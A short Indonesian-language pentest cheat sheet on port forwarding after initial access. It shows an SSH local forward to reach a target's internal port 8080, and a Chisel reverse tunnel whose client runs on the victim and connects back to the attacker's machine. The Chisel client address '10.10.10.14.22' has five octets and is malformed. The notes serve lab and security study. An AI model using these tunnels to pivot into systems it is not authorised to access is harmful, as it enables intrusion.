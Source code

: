 # Port Forwarding

## SSH
Ada case dimana ketika mendapatkan initial access, ada local port yang berjalan dan hanya bisa diakses via local, bagaimana cara attacker bisa mengaksesnya? yaitu dengan melakukan port forwarding. Misalnya pada target berjalan port 8080
```
ssh -L 8181:localhost:8080 aeolus@172.16.30.5
```

- -L 8181 --> listening di attacker machine
- localhost:8080 --> port yang akan diforward ke attacker dan akan menuju port 8181
- aeolus@172.16.30.5 --> login ssh
Lalu jika sudah berhasil coba cek apakah berhasil dengan akses browser
```
http://localhost:8181/
```

## Chisel

## Port Forwarding
Attacker Machine 
```
./chisel server -p 8888 --reverse
```

Forward port 8000 on victim to localhost attacker machine

Victim
```
./chisel client 10.10.10.14.22:8888 R:8000:127.0.0.1:8000
```